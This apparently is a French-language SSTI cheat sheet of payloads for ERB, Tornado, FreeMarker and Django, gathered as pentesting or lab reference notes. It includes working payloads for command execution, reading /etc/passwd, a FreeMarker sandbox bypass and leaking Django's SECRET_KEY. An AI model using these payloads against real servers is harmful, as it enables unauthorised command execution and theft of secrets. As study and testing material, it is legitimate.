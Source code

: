 # SSTI

Pour détecter le template en provoquant une erreur, on peut utiliser la payload suivante : `${{<%[%'"}}%\`

## SSTI ERB (Embedded Ruby)

- [HackTricks SSTI ERB](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

### Syntaxe de Base
- `{{7*7}}` ou `${7*7}` : Syntaxe de base pour l'évaluation de l'expression `7*7`.
- `<%= 7*7 %>` : Affiche 49, utilise la syntaxe ERB pour évaluer `7*7`.

### Affichage d'Erreurs et de Variables
- `<%= foobar %>` : Génère une erreur si `foobar` n'est pas défini.

### Exécution de Commandes
- `<%= system("whoami") %>` : Exécute la commande `whoami`.

### Manipulation du Système de Fichiers
- `<%= Dir.entries('/') %>` : Liste les répertoires à la racine (`/`).
- `<%= File.open('/etc/passwd').read %>` : Lit le fichier `/etc/passwd`.

### Autres Méthodes d'Exécution de Commandes
- `<%= system('cat /etc/passwd') %>` : Exécute la commande `cat /etc/passwd`.
- `<%= `ls /` %>` : Utilise les backticks pour exécuter `ls /`.
- `<%= IO.popen('ls /').readlines() %>` : Utilise `IO.popen` pour exécuter `ls /`.

### Utilisation de Bibliothèques Externes
- `<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>` : Utilise la bibliothèque `Open3`.
- `<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>` : Utilise la bibliothèque `Open4`.

### Ressources Additionnelles
- [Plus d'informations](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

## SSTI Tornado (Python)

- [HackTricks SSTI Tornado](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python)

### Syntaxe de Base
- `{{7*7}}` : Évalue l'expression `7*7` et retourne 49.
- `${7*7}` : Une autre syntaxe pour évaluer `7*7`.

### Manipulation de Chaînes
- `{{7*'7'}}` : Répète le caractère `'7'` sept fois, donnant `7777777`.

### Affichage d'Erreurs et de Variables
- `{{foobar}}` : Génère une erreur si `foobar` n'est pas défini.

### Import de Modules
- `{% import foobar %}` : Génère une erreur si le module `foobar` n'est pas trouvé.
- `{% import os %}` : Importe le module `os`.

### Exécution de Commandes
- `{{os.system('whoami')}}` : Tente d'exécuter la commande `whoami` en utilisant le module `os`.

### Ressources Additionnelles
- [Plus d'informations sur HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python)

## SSTI FreeMarker Java

- [PortSwigger Research](https://portswigger.net/research/server-side-template-injection)
- [Plus d'informations](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)
- Tester les payloads : [Try FreeMarker](https://try.freemarker.apache.org)

### Syntaxe de Base
- `{{7*7}}` ou `${7*7}` : Évalue l'expression `7*7` et retourne 49.
- `#{7*7}` : Syntaxe obsolète pour évaluer `7*7`, retourne 49.
- `${7*'7'}` : Ne retourne rien dans FreeMarker.
- `${foobar}` : Affiche la valeur de `foobar` si défini.

### Exécution de Commandes
- `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`
- `[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}`
- `${"freemarker.template.utility.Execute"?new()("id")}`

### Manipulation du Système de Fichiers
- `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}`

### Contournement de la Sandbox
- ⚠️ Fonctionne uniquement sur les versions de FreeMarker antérieures à la 2.3.30
  
```freemarker
  <#assign classloader=article.class.protectionDomain.classLoader>
  <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
  <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
  <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
  ${dwf.newInstance(ec,null)("id")}
```

## SSTI Django (Python)

- `{{settings}}`
- `{{settings.SECRET_KEY}}`
- `{{config}}`
- `{{config.items()}}`